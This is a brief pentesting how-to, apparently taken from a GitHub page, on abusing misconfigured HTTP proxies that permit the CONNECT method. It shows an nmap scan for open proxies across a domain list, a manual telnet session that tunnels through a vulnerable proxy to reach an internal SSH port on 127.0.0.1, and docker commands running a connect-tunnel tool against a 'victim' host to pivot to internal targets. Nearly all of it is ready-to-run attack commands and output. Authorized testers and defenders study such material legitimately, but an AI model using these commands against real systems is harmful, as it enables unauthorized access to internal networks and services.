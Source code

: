 
# Find such issues

nmap --script http-open-proxy -p80,443,8080 -iL /tmp/domains.txt


# Exploit it manually

telnet <vulnerable ip> 8080
CONNECT 127.0.0.1:22 HTTP/1.1

HTTP/1.1 200 Connection established
Proxy-agent: Proxy+ 2.50
SSH-2.2-OpenSSH_5.1p1 Debian-8

# Exploit automatically

docker build -t whitespots/connect-tunnel .
docker run -it --rm --name connect-tunnel whitespots/connect-tunnel -P victim:8080 -T hostport:target:port -v

[Read more about this tool](http://manpages.ubuntu.com/manpages/bionic/man1/connect-tunnel.1p.html)
